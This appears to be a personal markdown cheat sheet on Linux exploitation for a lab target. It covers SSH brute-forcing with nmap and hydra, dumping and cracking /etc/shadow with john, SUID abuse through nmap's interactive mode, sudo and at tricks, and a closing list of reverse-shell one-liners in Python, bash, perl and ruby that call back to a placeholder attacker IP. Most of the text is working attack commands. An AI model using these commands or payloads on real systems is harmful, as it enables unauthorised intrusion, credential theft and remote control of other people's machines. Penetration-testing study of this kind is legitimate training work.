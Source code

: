 #Linux Exploitation
```bash
nmap 2.0.0.22 target 1(metasploit)
```
- target 1 - port 22 ssh open

Lets try brutforce login
```bash
nmap 2.0.0.22 -p 22 --script ssh-brute
```
- After sucessfull passowrd cracking login with the crdentials
```bash
ssh administrator@2.0.0.22
whoami
id if uid=1001 - secondory regular user so 1000 is regular user
cat /etc/password - you can find the other users
```

Horizontal escalation
-------------------------------
since we know the user name lets try the password attack
```bash
hydra -l marlinspike -P /usr/share/wordlists/john/lst 2.0.0.22 ssh -e nsr -t 4
```

- anothe way to know the password is
```bash
cat /etc/shadow - contails passowrd hashes
```
- copy the hashes in a file in kali and try john
```bash
nano hash.txt
john hash.txt
# for the already cracked hashes
john --show hash.txt
```
check weather the /etc/password and /etc/shadow are having write permissions

-To find the suid files
```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
```
- if the linux machine is having **nmap** installe in suid file then we can use it to escalate the privileges
```bash
nmap --interactive
nmap> ! cat /etc/shadow
nmap> ! cat /etc/passwd
nmap> ! nc <kali IP> 1234 -e /bin/bash

```
- In kali machine run a netcat listener

```bash
nc -lvp 1234    
```
- GTFOBINS is helpful to find the suid files and how to use them to escalate the privileges
Gtfobins link: https://gtfobins.github.io/

- if there is any error while connecting try this 
```bash
kali-tweaks
```
- This box will opens now select **Hardining** then enable **SSH CLIENT** then click on **Apply**  button 

<img src="image-1.png" alt="alt text" width="400"/>
<img src="image-2.png" alt="alt text" width="400"/>
<img src="image-3.png" alt="alt text" width="400"/>
- if you are able to see the ALL in the **sudo -l** then you can run any command with sudo

````bash
sudo -l
````
- if you are able to see the ALL in the **sudo -i** 

```bash
sudo -i
```
- if you see the **at**  try this

```bash
COMMAND="id > hi.txt"
echo "$COMMAND" | at now
cat hi.txt

COMMAND="cat /etc/shadow > hi.txt"
echo "$COMMAND" | at now
cat hi.txt

or you can try bellow command

echo "whoami > hi.txt" | at now
cat hi.txt
```
## Kernel Vulnerabilities and Application Vulnerabilities

- To list all the packages installed in the linux machine

```bash
apt list --installed
dpkg --list
dpkg -l
dpkg -l | grep -v '^ii  lib'
apt list --installed | grep -v '^lib'
ls /usr/share/applications/
```
- If you don't have proper shell then try this command if it having python or bash or sh

```bash
python -c 'import pty; pty.spawn("/bin/bash");'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' - **For Reverse Shell**
python3 -c 'import pty; pty.spawn("/bin/bash");'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);' - **For Reverse Shell**
sh -i
bash -i
bash -i >& /dev/tcp/<kali IP>/1234 0>&1 - **For Reverse Shell**
sh -i >& /dev/tcp/<kali IP>/1234 0>&1 - **For Reverse Shell**
perl -e 'exec "/bin/bash";'
perl -e 'use Socket;$i="<attacker_ip>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' - **For Reverse Shell**
ruby -e 'exec "/bin/bash"'
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<attacker_ip>",<port>);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end' - **For Reverse Shell**
```